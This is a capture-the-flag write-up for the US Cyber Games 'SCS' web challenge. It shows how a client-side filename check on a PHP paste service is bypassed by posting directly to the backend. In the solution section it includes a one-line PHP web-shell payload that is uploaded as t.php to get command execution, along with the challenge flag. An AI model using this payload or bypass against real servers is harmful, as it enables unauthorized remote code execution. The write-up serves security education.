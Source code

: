 ```yaml
---
title: US Cyber Games [Season 4] - SCS
date: Mon Jun  3 01:41:30 PM EDT 2024
categories: [Writeup]
tags: [ctf,uscybergames,uscybergames2024,web,rce,upload]
---
```


## Description

SCS [Web]

We uncovered a code repository and it appears to be where ARIA is storing mission-critical code. We need to break in!

[https://uscybercombine-s4-scs.chals.io/](https://uscybercombine-s4-scs.chals.io/)

## Solution

![SCS](/assets/images/USCyberGames/2024/SCS.png)

Uploaded files are placed in `/uploads` directory

![SCS-2](/assets/images/USCyberGames/2024/SCS-2.png)

The technology used is PHP

![SCS-1](/assets/images/USCyberGames/2024/SCS-1.png)

The frontend restricts using special characters: 
```http
Paste file name can only contain alphanumeric characters
```

But making direct request to backend it's bypassed:

![SCS-3](/assets/images/USCyberGames/2024/SCS-3.png)

Upload shell:
```json
{
	"pasteContent": "<?PHP echo system($_REQUEST[0]); ?>",
	"pasteFileName":"t.php"
}
```

It works:
![SCS-4](/assets/images/USCyberGames/2024/SCS-4.png)

After some enumeration we find location of real *flag.txt*
![SCS-5](/assets/images/USCyberGames/2024/SCS-5.png)

> Flag: **SIVBGR{v@lidate_s3rver_s1de}**
{: .prompt-tip }